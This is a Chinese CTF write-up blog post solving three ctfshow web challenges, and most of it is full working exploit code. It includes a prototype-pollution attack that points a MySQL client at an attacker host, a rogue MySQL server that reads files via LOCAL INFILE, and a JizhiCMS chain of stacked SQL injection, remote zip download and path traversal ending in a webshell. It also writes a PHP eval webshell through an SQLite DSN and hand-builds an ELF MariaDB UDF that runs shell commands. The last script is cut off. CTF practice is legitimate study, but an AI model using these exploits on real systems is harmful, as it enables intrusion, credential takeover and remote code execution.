




+++
title= "Ctfshow 一些少解的题目"
slug= "ctfshow-rare-solved-challenges"
description= ""
date= "2026-04-29T16:58:02+08:00"
lastmod= "2026-04-29T16:58:02+08:00"
image= ""
license= ""
categories= ["ctfshow"]
tags= [""]

+++

并不是说他一定是少解的，而是网上 WP 可能不详细且此前一年、两年 baozongwi 无法独立解决的题目

## 未完成的项目 F5 杯

很久以前的题目，出自 Y4tacker 大手子，首先直接进行了js 泄露，拿到源码

```javascript
var express = require('express');
var router = express.Router();
var db = require('mysql-promise')
const mysql = require( 'mysql' );
const connection = require("mysql");


class Database {
  constructor( config ) {
    this.connection = mysql.createConnection( config );
  }
  query( sql, args ) {
    return new Promise( ( resolve, reject ) => {
      this.connection.query( sql, args, ( err, rows ) => {
        if ( err )
          return reject( err );
        resolve( rows );
      } );
    } );
  }
  close() {
    return new Promise( ( resolve, reject ) => {
      this.connection.end( err => {
        if ( err )
          return reject(err);
        resolve();
      } );
    } );
  }
}


const isObject = obj => obj && obj.constructor && obj.constructor === Object;
function merge(a, b) {
  for (var attr in b) {
    if (isObject(a[attr]) && isObject(b[attr])) {
      merge(a[attr], b[attr]);
    } else {
      a[attr] = b[attr];
    }
  }
  return a
}

function clone(a) {
  return merge({}, a);
}

router.get('/',function (req,res,next) {
  console.log("index");
  //res.render('index', {title: 'HTML'});
})


/* GET home page. */
router.post('/', function(req, res, next) {


    var body = JSON.parse(JSON.stringify(req.body));

    if (body.host != undefined) {
        return res.json({
            "msg":"fu** hacker!!!"
        })
    }

    var num = 0
    for(i in body){
        num ++;
    }
    if(num!=2){
        return res.json({
            "msg":"fu** hacker!!!"
        })
    }else{
        if(body.username==undefined||body.password==undefined){
            return res.json({
                "msg":"fu** hacker!!!"
            })
        }
    }

    var copybody = clone(body)
    var host = copybody.host == undefined ? "localhost" : copybody.host
    var flag = "123432432432"
    var config = {
      host: host,
      user: 'root',
      password: 'root',
      database: 'users'
    };


    let database=new Database(config);
    var user = copybody.username
    var pass = copybody.password
    function isInValiCode(str) {
        var reg= /-| |#|[\x00-\x2f]|[\x3a-\x3f]/;
        return reg.test(str);
    }
    if (isInValiCode(user)){
        return res.json({
            "msg":"no hacker!!!"
        })
    }


  let someRows, otherRows;
    database.query( 'select * from user where user= ? and passwd =?', [user,pass] )
      .then( rows => {

        if (1 == rows[0].Id) {
          res.json({
            "msg":flag
          })
        }

      } )
      .then( rows => {
        otherRows = rows;
        return database.close();
      }, err => {
        return database.close().then( () => { throw err; } )
      } )
      .then( () => {
        res.json({
          "error": "err","msg":"user or pass err"
        })
      })
      .catch( err => {
        res.json({
            "error": "err","msg":"user or pass err"
        })
      } )


});

module.exports = router;
```

一眼看到有个 merge 函数，登录接口里虽然禁止直接传 `host`，但后面又从 `copybody.host` 取 MySQL 连接地址

```javascript
var copybody = clone(body)
var host = copybody.host == undefined ? "localhost" : copybody.host
var config = {
  host: host,
  user: 'root',
  password: 'root',
  database: 'users'
};
```

这里可以通过 `__proto__` 污染 `Object.prototype.host`，让服务端的 mysql client 连到我们控制的 MySQL 服务。请求形态如下：

```json
{
  "username": "a",
  "password": "b",
  "__proto__": {
    "host": "ATTACKER_IP",
    "port": 3306
  }
}
```

连接被劫持后利用 mysql client 默认支持 `LOCAL INFILE` 的特性，让伪 MySQL 服务端要求客户端读取 `/flag`，flag 会被客户端发回伪服务端。

部署一个 MySQL fakerserver 通过 MySQL `LOCAL INFILE` 读取 `/flag`。

```python
#!/usr/bin/env python3
import json
import socket
import ssl
import struct
import sys
import threading
import time
import urllib.request


TARGET = "https://6cd3ab9a-3b18-48dd-bf7d-7904faad5f3e.challenge.ctf.show/"
PUBLIC_HOST = sys.argv[1]
LISTEN_PORT = int(sys.argv[2]) if len(sys.argv) > 2 else 3306
READ_FILE = sys.argv[3] if len(sys.argv) > 3 else "/flag"

got_file = threading.Event()


def packet(payload, seq):
    return struct.pack("<I", len(payload))[:3] + bytes([seq]) + payload


def recv_packet(conn):
    header = conn.recv(4)
    if not header:
        return None, None
    size = header[0] | (header[1] << 8) | (header[2] << 16)
    seq = header[3]
    data = b""
    while len(data) < size:
        chunk = conn.recv(size - len(data))
        if not chunk:
            break
        data += chunk
    return seq, data


def handshake():
    caps = 0x00000001 | 0x00000004 | 0x00000008 | 0x00000080 | 0x00000200 | 0x00008000 | 0x00080000
    salt1 = b"abcdefgh"
    salt2 = b"ijklmnopqrst"
    data = b"\x0a" + b"5.7.31-rogue\x00"
    data += struct.pack("<I", 1)
    data += salt1 + b"\x00"
    data += struct.pack("<H", caps & 0xffff)
    data += b"\x21" + b"\x02\x00"
    data += struct.pack("<H", caps >> 16)
    data += b"\x15" + b"\x00" * 10
    data += salt2 + b"\x00"
    data += b"mysql_native_password\x00"
    return packet(data, 0)


def ok(seq):
    return packet(b"\x00\x00\x00\x02\x00\x00\x00", seq)


def handle(conn, addr):
    conn.settimeout(30)
    print(f"[+] mysql client from {addr[0]}:{addr[1]}", flush=True)
    conn.sendall(handshake())
    recv_packet(conn)
    conn.sendall(ok(2))

    _, query = recv_packet(conn)
    if not query:
        return
    if query[:1] == b"\x03":
        print("[+] query:", query[1:].decode(errors="ignore"), flush=True)
    conn.sendall(packet(b"\xfb" + READ_FILE.encode(), 1))

    chunks = []
    while True:
        _, data = recv_packet(conn)
        if data is None:
            break
        if data == b"":
            break
        chunks.append(data)

    content = b"".join(chunks)
    if content:
        print("[+] file content:", flush=True)
        print(content.decode(errors="ignore"), flush=True)
        got_file.set()
    conn.sendall(ok(2))


def serve():
    server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    server.bind(("0.0.0.0", LISTEN_PORT))
    server.listen(5)
    server.settimeout(60)
    print(f"[+] listening on 0.0.0.0:{LISTEN_PORT}", flush=True)
    end = time.time() + 60
    while time.time() < end and not got_file.is_set():
        try:
            conn, addr = server.accept()
        except socket.timeout:
            break
        try:
            handle(conn, addr)
        finally:
            conn.close()
    server.close()


def trigger():
    payload = {
        "username": "a",
        "password": "b",
        "__proto__": {
            "host": PUBLIC_HOST,
            "port": LISTEN_PORT,
        },
    }
    data = json.dumps(payload).encode()
    req = urllib.request.Request(TARGET, data=data, headers={"Content-Type": "application/json"}, method="POST")
    ctx = ssl._create_unverified_context()
    try:
        with urllib.request.urlopen(req, context=ctx, timeout=20) as resp:
            print("[+] target response:", resp.read().decode(errors="ignore"), flush=True)
    except Exception as exc:
        print("[-] trigger error:", exc, flush=True)


threading.Thread(target=serve, daemon=True).start()
time.sleep(1)
trigger()
got_file.wait(60)

## python3 exp.py 156.239.238.130 3306 /flag
```



## easy CMS 大牛杯

题目提示小明改了一行丑代码，先拿原版 `v1.9.2` 和题目源码对了一下，主要差异就两个。

第一个在`FrPHP/lib/Model.php`

```php
self::$table = stripos(strtolower(self::$table),DB_PREFIX)===0?strtolower(self::$table):DB_PREFIX.strtolower(self::$table);
```

原来是无脑拼`DB_PREFIX`，现在如果表名已经是`jz_`开头就不再拼。看起来像是修了重复前缀，实际效果是我们可以从外部传`molds=jz_article`，让`M($molds)`直接落到真实表。前台有个`Common/gohits`

```php
function gohits($id=0,$molds='article',$i=1){
    $n = M($molds)->getField(['id'=>$id],'hits');
    $num = $n+$i;
    M($molds)->update(['id'=>$id],['hits'=>$num]);
    JsonReturn(['code'=>0,'msg'=>'success','data'=>$num]);
}
```

`id`最后会进 SQL 的字符串拼接，所以这里可以打堆叠注入。后台默认账号是 `admin/admin`，麻烦点在验证码，于是直接把`closeadminvercode`改成`1`。

```http
/index.php/Common/gohits?id=1';update jz_sysconfig set data='1' where field='closeadminvercode';%23&molds=jz_article&i=1
```

还有个小坑，`webconfig` 缓存的 key 带了 `get_domain()`，也就是跟 `Host` 有关。所以注入请求用一个`Host`，后台登录时换另一个`Host`，就可以避开旧缓存，直接读数据库里的新配置。

第二个差异在 `A/c/PluginsController.php`：

```php
if(stripos($remote_url,"jizhicms") || stripos($remote_url,"filemanage")){
    die("给我爬");
}
```

**加点难度**，原本插件更新这里可以传 `download_url` 下载 zip，后来他只拦了两个关键词，但任意 URL 下载还在。下载后会走 `file-upzip`：

```php
$path = APP_PATH.'A/exts/';
$msg = $this->get_zip_originalsize($tmp_path,$path);
```

解压函数里直接拼路径

```php
$file_name = $path.zip_entry_name($dir_resource);
file_put_contents($file_name,$file_content);
```

直接目录穿越，zip 里放一个 `../../x.php`，就能从 `A/exts/` 穿到 Web 根目录，getshell。

```python
#!/usr/bin/env python3
import json
import random
import string
from urllib.parse import urlparse

import requests
import urllib3


TARGET = "https://5141c7f1-bf61-4ef5-8660-1df245278d46.challenge.ctf.show"
ZIP_URL = "http://156.239.238.130:8000/p.zip"
SHELL = "x.php"
PASS_HASH = "0acdd3e4a8a2a1f8aa3ac518313dab9d"  # md5(md5("admin") + "YF")


def parse_json(resp):
    text = resp.text.strip()
    start = text.find("{")
    if start != -1:
        text = text[start:]
    try:
        return json.loads(text)
    except Exception:
        return {"raw": resp.text[:200]}


def main():
    target = TARGET.rstrip("/")
    if "靶机地址" in target or "你的VPS" in ZIP_URL:
        print("先改脚本顶部的 TARGET 和 ZIP_URL")
        return

    if "jizhicms" in ZIP_URL.lower() or "filemanage" in ZIP_URL.lower():
        print("ZIP_URL 不能包含 jizhicms/filemanage")
        return

    urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
    s = requests.Session()
    s.verify = False
    host_a = urlparse(target).netloc
    host_b = host_a.upper()
    if host_b == host_a:
        host_b = "b" + "".join(random.choice(string.ascii_lowercase) for _ in range(8)) + ".local"

    inj = (
        "1';"
        "update jz_sysconfig set data='1' where field='closeadminvercode';"
        f"update jz_level set name='admin',pass='{PASS_HASH}',status=1,gid=1 where id=1;"
        "update jz_level_group set isagree=1 where id=1;"
        "#"
    )
    r = s.get(
        target + "/index.php/Common/gohits",
        params={"id": inj, "molds": "jz_article", "i": "1"},
        headers={"Host": host_a},
        timeout=15,
    )
    print("[+] SQLi:", parse_json(r))

    r = s.post(
        target + "/admin.php/Login/index",
        data={"username": "admin", "password": "admin", "ajax": "1"},
        headers={"Host": host_b},
        timeout=15,
    )
    print("[+] login:", parse_json(r))

    name = "p" + "".join(random.choice(string.ascii_lowercase) for _ in range(6))
    r = s.get(
        target + "/admin.php/Plugins/update",
        params={"filepath": name, "action": "start-download", "download_url": ZIP_URL, "filesize": "1"},
        headers={"Host": host_b},
        timeout=30,
    )
    print("[+] download:", parse_json(r))

    r = s.get(
        target + "/admin.php/Plugins/update",
        params={"filepath": name, "action": "file-upzip"},
        headers={"Host": host_b},
        timeout=30,
    )
    print("[+] unzip:", parse_json(r))
    print(f"[+] webshell: {target}/{SHELL}?cmd=cat+/flag_is_here")


if __name__ == "__main__":
    main()


# python3 -m http.server 8000
# python3 exp.py
```


## 吃瓜杯 魔女

入口一个登陆框，我是先黑盒观察到，响应里设置了类似 a=index; m=login 的 Cookie，页面还返回了 location.replace(location.href)，说明服务端在改了用户状态之后刷新同一个 URL，正常 MVC 路由一般在 path/query/body 里，但这里访问一直是 /，行为却随 Cookie 变化，所以优先怀疑 Cookie 控制路由。

先验证 m

```bash
Cookie: a=index; m=login
Cookie: a=index; m=register
Cookie: a=index; m=page
```

如果页面模板跟着变，就说明 m 是方法名。再验证参数载体 ctfshow。发现它用 | 分隔参数后，尝试：

```bash
Cookie: a=index; m=doregister; ctfshow=user|pass
Cookie: a=index; m=dologin; ctfshow=user|pass
```

fuzz 可疑方法名，重点是常见动词：

```bash
download
upload
read
file
page
main
login
register
dologin
doregister
changeavatar
changepwd
```

download 命中后尝试文件读取

```bash
Cookie: a=index; m=download; ctfshow=/etc/passwd|true
Cookie: a=index; m=download; ctfshow=/var/www/html/application/action/index.php|true
```

文件读成功后就不盲 fuzz 了，转源码审计。源码确认 a 是类名、m 是方法名，通过 cookie 控制路由：`a` 是类名，`m` 是方法名，`ctfshow` 用 `|` 分隔参数。

`Index::download()` 存在任意文件读：

```php
$file = $args[0]=='avatar.jpg'?$file=AVATAR_PATH.'avatar.jpg':$args[0];
$flag = $args[1];
if($flag && file_exists($file)){
    echo file_get_contents($file);
}
```

读取源码后发现 hook 会直接实例化 cookie 里的类名：

```php
$this->object = new $class($this->args[0]);
call_user_func_array([$this->object,$method], $this->args);
```

`a`只限制小写字母，PHP 类名大小写不敏感，所以可以用`a=pdo`实例化内置`PDO`。白名单里有`query`方法，因此可调用`PDO::query()`，先用 SQLite DSN 在 webroot 写 PHP 代码，即可新建`/static/s428.php`那么我们当然也可以写入 webshell

```python
dsn = 'sqlite:/var/www/html/www/static/shell.php'
route('pdo', 'query', [dsn, 'CREATE TABLE t (c TEXT)'])
route('pdo', 'query', [dsn, 'INSERT INTO t VALUES (\'<?php if(isset($_POST["c"])){eval($_POST["c"]);} ?>\')'])
```

随后通过该 PHP 执行点连接 MySQL，源码配置里账号密码为`root/root`，枚举数据库后发现 `ctftraining.news`提示：`Flag is in the database but not here.`，但`FLAG_TABLE` 为空

PHP 环境禁用了`system/exec/shell_exec`等函数，并限制了`open_basedir=/var/www/html:/tmp`，MySQL 有`FILE`权限，且插件目录可写，打 UDF 即可，直接用 MySQL 读取即可得到 flag。

```python
#!/usr/bin/env python3
import argparse
import random
import re
import ssl
import string
import struct
import sys
import urllib.parse
import urllib.request


SSL_CONTEXT = ssl._create_unverified_context()


def p16(value):
    return struct.pack("<H", value)


def p32(value):
    return struct.pack("<I", value)


def p64(value):
    return struct.pack("<Q", value)


def align_blob(blob, alignment):
    return blob + b"\x00" * ((alignment - len(blob) % alignment) % alignment)


def align_len(length, alignment):
    return length + ((alignment - length % alignment) % alignment)


def elf_hash(name):
    h = 0
    for ch in name:
        h = (h << 4) + ch
        g = h & 0xF0000000
        if g:
            h ^= g >> 24
        h &= ~g
    return h & 0xFFFFFFFF


def rand_token(prefix="s", length=8):
    alphabet = string.ascii_lowercase + string.digits
    return prefix + "".join(random.choice(alphabet) for _ in range(length))


def function_base_offset(names):
    length = 64 + 56 * 2
    length = align_len(length, 8)
    length += 1 + sum(len(name) + 1 for name in names)
    length = align_len(length, 8)
    length += 24 * (len(names) + 1)
    length = align_len(length, 8)
    length += 8 + 4 * 5 + 4 * (len(names) + 1)
    length = align_len(length, 8)
    length += 16 * 6
    length = align_len(length, 16)
    length += 3 + 1
    return align_len(length, 16)


def build_udf_so(function_name):
    """Build a tiny x86_64 Linux MariaDB UDF shared object.

    Exported UDF signature is compatible with:
        integer function_name(string command)

    The function forks, runs `/bin/sh -c <command>`, waits for the child, and
    returns 0.  It is position-independent and does not depend on libc symbols.
    """
    names = [
        function_name.encode(),
        (function_name + "_init").encode(),
        (function_name + "_deinit").encode(),
    ]
    base = function_base_offset(names)

    code = bytearray()
    code += bytes.fromhex("53")              # push rbx
    code += bytes.fromhex("4154")            # push r12
    code += bytes.fromhex("488b4610")        # mov rax, [rsi+0x10] ; UDF_ARGS.args
    code += bytes.fromhex("4c8b20")          # mov r12, [rax]      ; args[0]
    code += bytes.fromhex("b839000000")      # mov eax, 57         ; fork
    code += bytes.fromhex("0f05")            # syscall
    code += bytes.fromhex("4885c0")          # test rax, rax
    child_jump = len(code)
    code += b"\x74\x00"                     # jz child

    code += bytes.fromhex("4889c7")          # mov rdi, rax        ; child pid
    code += bytes.fromhex("31f6")            # xor esi, esi
    code += bytes.fromhex("31d2")            # xor edx, edx
    code += bytes.fromhex("4531d2")          # xor r10d, r10d
    code += bytes.fromhex("b83d000000")      # mov eax, 61         ; wait4
    code += bytes.fromhex("0f05")            # syscall
    code += bytes.fromhex("415c")            # pop r12
    code += bytes.fromhex("5b")              # pop rbx
    code += bytes.fromhex("31c0")            # xor eax, eax
    code += bytes.fromhex("c3")              # ret

    child_offset = len(code)
    code[child_jump + 1] = (child_offset - (child_jump + 2)) & 0xFF

    lea_binsh = len(code)
    code += bytes.fromhex("488d3d00000000")  # lea rdi, [rip+/bin/sh]
    code += bytes.fromhex("31c0")            # xor eax, eax
    code += bytes.fromhex("50")              # push rax            ; argv NULL
    code += bytes.fromhex("4154")            # push r12            ; command
    lea_dashc = len(code)
    code += bytes.fromhex("488d1d00000000")  # lea rbx, [rip+-c]
    code += bytes.fromhex("53")              # push rbx
    code += bytes.fromhex("57")              # push rdi
    code += bytes.fromhex("4889e6")          # mov rsi, rsp        ; argv
    code += bytes.fromhex("31d2")            # xor edx, edx        ; envp NULL
    code += bytes.fromhex("b83b000000")      # mov eax, 59         ; execve
    code += bytes.fromhex("0f05")            # syscall
    code += bytes.fromhex("bf7f000000")      # mov edi, 127
    code += bytes.fromhex("b83c000000")      # mov eax, 60         ; exit
    code += bytes.fromhex("0f05")            # syscall

    binsh_addr = base + len(code)
    code += b"/bin/sh\x00"
    dashc_addr = base + len(code)
    code += b"-c\x00"

    for pos, target in ((lea_binsh, binsh_addr), (lea_dashc, dashc_addr)):
        code[pos + 3 : pos + 7] = struct.pack("<i", target - (base + pos + 7))

    blob = bytearray(64 + 56 * 2)
    blob = align_blob(blob, 8)

    dynstr_offset = len(blob)
    dynstr = b"\x00"
    name_offsets = {}
    for name in names:
        name_offsets[name] = len(dynstr)
        dynstr += name + b"\x00"
    blob += dynstr
    blob = align_blob(blob, 8)

    dynsym_offset = len(blob)
    blob += b"\x00" * 24 * (len(names) + 1)
    blob = align_blob(blob, 8)

    hash_offset = len(blob)
    nbucket = 5
    nchain = len(names) + 1
    buckets = [0] * nbucket
    chains = [0] * nchain
    for index, name in enumerate(names, 1):
        bucket = elf_hash(name) % nbucket
        chains[index] = buckets[bucket]
        buckets[bucket] = index
    blob += p32(nbucket) + p32(nchain)
    blob += b"".join(p32(value) for value in buckets)
    blob += b"".join(p32(value) for value in chains)
    blob = align_blob(blob, 8)

    dynamic_offset = len(blob)
    dynamic_entries = [
        (4, hash_offset),          # DT_HASH
        (5, dynstr_offset),        # DT_STRTAB
        (6, dynsym_offset),        # DT_SYMTAB
        (10, len(dynstr)),         # DT_STRSZ
        (11, 24),                  # DT_SYMENT
        (0, 0),                    # DT_NULL
    ]
    for tag, value in dynamic_entries:
        blob += p64(tag) + p64(value)
    dynamic_size = len(dynamic_entries) * 16
    blob = align_blob(blob, 16)

    init_offset = len(blob)
    blob += bytes.fromhex("31c0c3")          # x_init: return 0
    deinit_offset = len(blob)
    blob += bytes.fromhex("c3")              # x_deinit: ret
    blob = align_blob(blob, 16)

    func_offset = len(blob)
    if func_offset != base:
        raise RuntimeError("internal ELF layout mismatch")
    blob += code

    symbols = [
        (names[0], func_offset, len(code)),
        (names[1], init_offset, 3),
        (names[2], deinit_offset, 1),
    ]
    for index, (name, value, size) in enumerate(symbols, 1):
        offset = dynsym_offset + index * 24
        blob[offset : offset + 24] = (
            p32(name_offsets[name])
            + bytes([0x12, 0])               # STB_GLOBAL | STT_FUNC
            + p16(1)
            + p64(value)
            + p64(size)
        )

    elf_header = (
        b"\x7fELF"
        + bytes([2, 1, 1, 0])
        + b"\x00" * 8
        + p16(3)                             # ET_DYN
        + p16(62)                            # x86_64
        + p32(1)
        + p64(0)
        + p64(64)
        + p64(0)
        + p32(0)
        + p16(64)
        + p16(56)
        + p16(2)
        + p16(0)
        + p16(0)
        + p16(0)
    )
    blob[:64] = elf_header
    blob[64:120] = (
        p32(1)                               # PT_LOAD
        + p32(7)                             # RWX
        + p64(0)
        + p64(0)
        + p64(0)
        + p64(len(blob))
        + p64(len(blob))
        + p64(0x1000)
    )
    blob[120:176] = (
        p32(2)                               # PT_DYNAMIC
        + p32(6)                             # RW
        + p64(dynamic_offset)
        + p64(dynamic_offset)
        + p64(dynamic_offset)
        + p64(dynamic_size)
        + p64(dynamic_size)
        + p64(8)
    )
    return bytes(blob)


def request_route(base_url, action, method, args):
    url = base_url.rstrip("/") + "/"
    value = "|".join(args)
    cookie = "a=%s; m=%s; ctfshow=%s" % (
        urllib.parse.quote(action, safe=""),
        urllib.parse.quote(method, safe=""),
        urllib.parse.quote(value, safe=""),
    )
    req = urllib.request.Request(
        url,
        headers={"Cookie": cookie, "User-Agent": "ctf-udf-exp"},
    )
    with urllib.request.urlopen(req, timeout=20, context=SSL_CONTEXT) as resp:
        return resp.read()


def post_shell(base_url, shell_name, code):
    url = base_url.rstrip("/") + "/static/" + shell_name
    marker_begin = "__EXP_BEGIN_%s__" % rand_token("m", 6)
    marker_end = "__EXP_END_%s__" % rand_token("m", 6)
    wrapped = 'echo "%s"; %s echo "%s";' % (marker_begin, code, marker_end)
    data = urllib.parse.urlencode({"c": wrapped}).encode()
    req = urllib.request.Request(
        url,
        data=data,
        headers={
            "Content-Type": "application/x-www-form-urlencoded",
            "User-Agent": "ctf-udf-exp",
        },
    )
    with urllib.request.urlopen(req, timeout=30, context=SSL_CONTEXT) as resp:
        text = resp.read().decode("latin-1", errors="ignore")
    start = text.find(marker_begin)
    end = text.find(marker_end, start + len(marker_begin))
    if start == -1 or end == -1:
        raise RuntimeError("webshell marker not found; tail=%r" % text[-500:])
    return text[start + len(marker_begin) : end]


def sql_quote(value):
    return "'" + value.replace("'", "''") + "'"


def php_string(value):
    return "'" + value.replace("\\", "\\\\").replace("'", "\\'") + "'"


def create_php_shell(base_url):
    shell_name = rand_token("s", 8) + ".php"
    shell_path = "/var/www/html/www/static/" + shell_name
    dsn = "sqlite:" + shell_path

    request_route(base_url, "pdo", "query", [dsn, "CREATE TABLE t (c TEXT)"])
    payload = '<?php if(isset($_POST["c"])){eval($_POST["c"]);} ?>'
    request_route(base_url, "pdo", "query", [dsn, "INSERT INTO t VALUES (%s)" % sql_quote(payload)])

    probe = post_shell(base_url, shell_name, 'echo "ok";')
    if "ok" not in probe:
        raise RuntimeError("PHP shell probe failed: %r" % probe)
    return shell_name


def register_udf(base_url, shell_name, function_name, so_hex):
    soname = "lib%s.so" % function_name
    php = r'''
$pdo = new PDO("mysql:dbname=ctfshow;host=localhost;charset=utf8mb4", "root", "root", [PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION]);
$func = %s;
$soname = %s;
$hex = %s;
try { $pdo->exec("drop function if exists `" . $func . "`"); } catch (Throwable $e) {}
$pdo->exec("select 0x" . $hex . " into dumpfile " . $pdo->quote("/usr/lib/mariadb/plugin/" . $soname));
$pdo->exec("create function `" . $func . "` returns integer soname " . $pdo->quote($soname));
echo "udf_ok";
''' % (php_string(function_name), php_string(soname), php_string(so_hex))
    return post_shell(base_url, shell_name, php)


def mysql_run_command(base_url, shell_name, function_name, command):
    outfile = "/tmp/" + rand_token("cmd", 8) + ".txt"
    full_command = command + " > " + outfile + " 2>&1"
    php = r'''
$pdo = new PDO("mysql:dbname=ctfshow;host=localhost;charset=utf8mb4", "root", "root", [PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION]);
$func = %s;
$cmd = %s;
$outfile = %s;
$pdo->query("select `" . $func . "`(" . $pdo->quote($cmd) . ")");
$pdo->exec("drop temporary table if exists tmp_cmd");
$pdo->exec("create temporary table tmp_cmd(line longblob)");
$pdo->exec("load data infile " . $pdo->quote($outfile) . " into table tmp_cmd fields terminated by '\n' lines terminated by '\n' (line)");
echo $pdo->query("select group_concat(line separator 0x0a) from tmp_cmd")->fetchColumn();
''' % (php_string(function_name), php_string(full_command), php_string(outfile))
    return post_shell(base_url, shell_name, php)


def read_file_with_mysql(base_url, shell_name, path):
    php = r'''
$pdo = new PDO("mysql:dbname=ctfshow;host=localhost;charset=utf8mb4", "root", "root", [PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION]);
$path = %s;
$pdo->exec("drop temporary table if exists tmp_file");
$pdo->exec("create temporary table tmp_file(line longblob)");
$pdo->exec("load data infile " . $pdo->quote($path) . " into table tmp_file fields terminated by '\n' lines terminated by '\n' (line)");
echo $pdo->query("select group_concat(line separator 0x0a) from tmp_file")->fetchColumn();
''' % php_string(path)
    return post_shell(base_url, shell_name, php)


def pick_flag_path(ls_output):
    candidates = []
    for line in ls_output.splitlines():
        parts = line.split()
        if not parts:
            continue
        name = parts[-1]
        lowered = name.lower()
        if "secret" in lowered or "flag" in lowered or "ctf" in lowered:
            if not name.startswith(".") and name not in ("ctfshow", "ctftraining"):
                candidates.append("/" + name.lstrip("/"))
    if not candidates:
        raise RuntimeError("cannot infer flag path from ls output:\n" + ls_output)
    return candidates[0]


def main():
    parser = argparse.ArgumentParser(description="Full UDF exploit for the ctfshow witch challenge")
    parser.add_argument("url", help="target base URL, e.g. https://xxx.challenge.ctf.show/")
    args = parser.parse_args()
    base_url = args.url.rstrip("/")

    shell_name = create_php_shell(base_url)
    print("[+] php shell: %s/static/%s" % (base_url, shell_name), file=sys.stderr)

    function_name = rand_token("x", 8)
    so_hex = build_udf_so(function_name).hex()
    result = register_udf(base_url, shell_name, function_name, so_hex)
    if "udf_ok" not in result:
        raise RuntimeError("UDF registration failed: %r" % result)
    print("[+] udf registered: %s" % function_name, file=sys.stderr)

    root_listing = mysql_run_command(base_url, shell_name, function_name, "ls -la /")
